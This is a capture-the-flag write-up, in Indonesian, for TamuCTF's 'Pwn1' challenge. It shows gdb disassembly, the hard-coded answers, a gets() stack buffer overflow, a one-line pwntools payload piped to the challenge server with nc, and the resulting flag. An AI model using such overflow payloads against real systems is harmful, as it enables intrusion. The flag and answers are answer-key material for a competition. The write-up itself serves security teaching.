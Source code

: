 # __TamuCTF__
## _Pwn1_

## Information
**Category:** | **Points**
pwn | 227

**Description**

> nc pwn.tamuctf.com 4321
> Difficulty: easy
> [pwn1](./pwn1)

### Pwn1
#### File
```
pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
```

#### Run
```
[l0l@l0l Pwn1]$ ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
((ThisIsInput))
I don't know that! Auuuuuuuugh!
```

#### Solve
Langsung coba buka di gdb. Hanya ada dua fungsi yang menarik, yaitu `main` dan `print_flag`.

Seperti namanya, fungsi `print_flag` hanya melakukan print flag setelah kita berhasil melewati beberapa pengecekan di fungsi `main`.

Pengecekan pertama dan kedua hanya dengan melakukan `strcmp` antara input kita dengan string yang tersimpan di program. Tinggal masukkan input yang sesuai dengan yang dibandingkan `strcmp`:
```
gdb-peda$ x/s $ebx-0x15b5
0x565559fb:     "What... is your name?"
gdb-peda$ x/s $ebx-0x159f
0x56555a11:     "Sir Lancelot of Camelot\n"

gdb-peda$ x/s $ebx-0x1564
0x56555a4c:     "What... is your quest?"
gdb-peda$ x/s $ebx-0x154d
0x56555a63:     "To seek the Holy Grail.\n"
```

Setelah itu baru kita masuk ke vulnerability utama dari program, yaitu pada kode bagian :
```
   0x56555891 <+280>:   sub    esp,0xc
   0x56555894 <+283>:   lea    eax,[ebx-0x1534]
   0x5655589a <+289>:   push   eax
   0x5655589b <+290>:   call   0x56555550 <puts@plt>
   0x565558a0 <+295>:   add    esp,0x10
   0x565558a3 <+298>:   sub    esp,0xc
   0x565558a6 <+301>:   lea    eax,[ebp-0x3b]
   0x565558a9 <+304>:   push   eax
=> 0x565558aa <+305>:   call   0x56555520 <gets@plt>
   0x565558af <+310>:   add    esp,0x10
   0x565558b2 <+313>:   cmp    DWORD PTR [ebp-0x10],0xdea110c8
   0x565558b9 <+320>:   jne    0x565558c2 <main+329>
   0x565558bb <+322>:   call   0x565556fd <print_flag>
```

Terdapat celah buffer overflow pada fungsi `gets`. Kita hanya perlu mengubah nilai alamat di `$ebp-0x10` dengan 0xdea110c8. Input kita mulai disimpan pada `$ebp-0x3b` berarti kita butuh 43 karakter sebelum overwrite address yang diinginkan.

#### Payload
```
python2 -c "from pwn import p32;print 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\n'+'A'*(0x3b-0x10)+p32(0xdea110c8)" | nc pwn.tamuctf.com 4321
```

#### Result
```
[l0l@l0l ~]$ python2 -c "from pwn import p32;print 'Sir Lancelot of Camelot\nTo seek the Holy Grail.\n'+'A'*(0x3b-0x10)+p32(0xdea110c8)" | nc pwn.tamuctf.com
4321
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
gigem{34sy_CC428ECD75A0D392}
```

#### Flag
gigem{34sy_CC428ECD75A0D392}
